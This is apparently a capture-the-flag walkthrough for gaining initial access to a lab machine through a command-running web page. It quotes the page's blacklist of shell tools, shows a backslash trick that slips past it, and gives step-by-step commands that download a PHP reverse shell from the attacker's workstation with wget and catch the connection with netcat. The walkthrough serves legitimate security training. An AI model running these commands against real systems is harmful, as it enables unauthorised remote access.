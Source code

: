 ## Gaining Access

The most obvious place to start is in the `/secret/` folder via the web browser. This lets you run Linux commands, and it shows you the output. However, you quickly find out several commands are blocked and it shows you a "Are you a hacker?" message.

One command to run is `sudo -l` which will show you if the current user is able to run anything as `root`. We find that account `apaar` can run `/home/apaar/.helpline.sh` as sudo.

We can't seem to do `cat` or `less` to read files, so we can read parts of file with something like: `grep -v "zZz" /home/apaar/.helpline.sh`. This tells grep to show me all of the lines of the file that *DON'T* have the character string "zZz", which is most-likely all of the lines of the file.

Using that same `grep` technique, we can look at the `index.php` for `/secret/` and see the actual blacklist of commands we cannot run:

```php
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls'); 
```

Knowing that this is looking for an exact string, we can bypass this telling bash we want to treat the next character as a "string" literal, by using a backslash. For example: `c\at ./index.php` is technically equivalent to `cat ./index.php`, but for the first one, we were just saying that the "a" of "cat" is a string-literal (which is already was).

How do we get in, then?

### Unprivileged Access

There are several interesting aspects to this server.

#### PHP Reverse Shell

By using the technique above, we see that our default user `www-data` does not have write access anywhere, we can always write to the `/tmp/` folder. We also know from the `$blacklist` above that PHP is installed on the current server. We can straight-up just run `php somefile.php` from the command-line, even without a web server.

Putting this together, we can:

1. Go [grab a PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and download that to our workstation, say to `~/Downloads/`. Rename it to `revshell.php`.
1. Edit that file and modify the IP address to be your workstation IP, and the port to be `9000`.
1. Navigate into `~/Downloads/` and run `python3 -m http.server 8000` - this is a temporary web server from where our victim machine can download the reverse shell.
1. From the `/secret/` website on the victim machine, run: `wget -O /tmp/revshell.php http://<WorkstationIP>:8000/revshell.php` - this will download the configured reverse shell from our Python3 web server that is hosting files from our `~/Downloads/` folder.
1. Now that `/tmp/revshell.php` exists on the target machine, and we know how to bypass the filtering, we first need to listen for the incoming reverse shell. So, on your workstation, run: `nc -lvnp 9000` (note that we configured the reverse shell in step 1 to point to port 9000)
1. Finally, from `/secret/` web page run the command: `p\hp /tmp/revshell.php`. You should see a connecting session back on your netcat terminal! You now have a primitive shell connection, running as the `www-data` user.
